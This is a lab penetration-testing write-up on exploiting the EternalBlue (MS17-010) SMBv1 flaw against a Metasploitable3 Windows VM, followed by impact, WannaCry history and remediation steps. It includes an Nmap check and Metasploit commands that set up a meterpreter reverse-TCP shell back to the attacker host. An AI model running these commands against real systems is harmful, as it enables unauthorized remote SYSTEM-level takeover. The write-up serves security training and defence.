




# Windows Server 2008 - EternalBlue (SMBv1 Remote Code Execution)

- **Category:** Network Pentesting - Gaining Access (Direct Vulnerability Exploitation)
- **Environment:** Self-hosted lab - Kali Linux (attacker) + Metasploitable3 Windows build (target), Host-Only network
- **Tools used:** Nmap, Metasploit Framework (msfconsole), Wireshark

## Objective
Verify the target is vulnerable to EternalBlue (MS17-010), then exploit the unpatched SMBv1 implementation to gain remote SYSTEM-level access - contrasted against the social-engineering-based compromise in the prior writeup on the same VM.

## Vulnerability Confirmation
Before attempting exploitation, confirmed the target was actually vulnerable rather than assuming it:
```
nmap --script smb-vuln-ms17-010 -p445 192.168.30.4
```
Result:


## Vulnerability
**MS17-010 / EternalBlue** - a flaw in SMBv1 that allows unauthenticated Remote Code Execution. This finding confirms that the target system remains vulnerable to **MS17-010**, indicating that the required security updates have not been applied and that the SMBv1 service is still exposed.

## Exploitation Steps
1. Launched Metasploit and selected the module:
   ```
   msfconsole
   search eternalblue
   use 0
   set RHOSTS 192.168.30.4
   set LHOST 192.168.30.5
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   show options
   ```

2. Executed the exploit:
   ```
   run
   ```
   

3. Confirmed access level inside the resulting Meterpreter session:
   ```
   sysinfo
   getuid
   ```
   Output:
   

4. Captured the exploit traffic in Wireshark, filtered on `tcp.port==445`, confirming the SMB exchange that delivers the exploit:

   

## Impact
Full, unauthenticated remote code execution leading to SYSTEM-LEVEL access - the highest privilege tier on a Windows host. An attacker gains complete control of the machine: **file access, credential dumping, lateral movement and persistence** all without any valid credentials or user interaction.

## Real-World Context

This vulnerability was not just a lab exercise - MS17-010/EternalBlue was the exploit behind the **WannaCry ransomware outbreak (May 2017)**, which infected hundreds of thousands of Windows systems across 150+ countries. WannaCry used this exact SMBv1 flaw to spread wormable, requiring no user interaction to propagate between unpatched systems on a network.

Microsoft had released the patch (MS17-010) over a month before the outbreak; the scale of damage was almost entirely due to organizations failing to apply an already-available fix. This is why the remediation step here isn't optional best practice. It is the specific fix that would have prevented one of the most damaging ransomware events in recent history.

## Remediation
- Apply Microsoft Security Bulletin MS17-010.
- Disable SMBv1 entirely - modern Windows supports SMBv2/v3, which are not affected.
- Restrict SMB (TCP 445) exposure via firewall to trusted network segments only.
- Monitor for anomalous SMB traffic patterns as an IOC for exploitation attempts.

## Key Takeaway

This writeup demonstrates how a single unpatched legacy protocol (**SMBv1**) can lead to complete system compromise through a publicly known Remote Code Execution vulnerability. Although this repository contains another writeup covering **MS17-010** on a different Windows target, the recurring finding reinforces an important security lesson: the same underlying vulnerability can affect multiple systems if legacy protocols remain enabled and security updates are not consistently applied.

Compared with the previous **SET Toolkit** writeup on this same virtual machine, this assessment highlights a different attack category. **MS17-010** exploits a technical software vulnerability that is mitigated through patch management and protocol hardening, whereas the **SET Toolkit** scenario targets human behavior through social engineering. Together, these writeups illustrate that organizations must defend against both technical vulnerabilities and human-focused attacks, as each requires a different security strategy.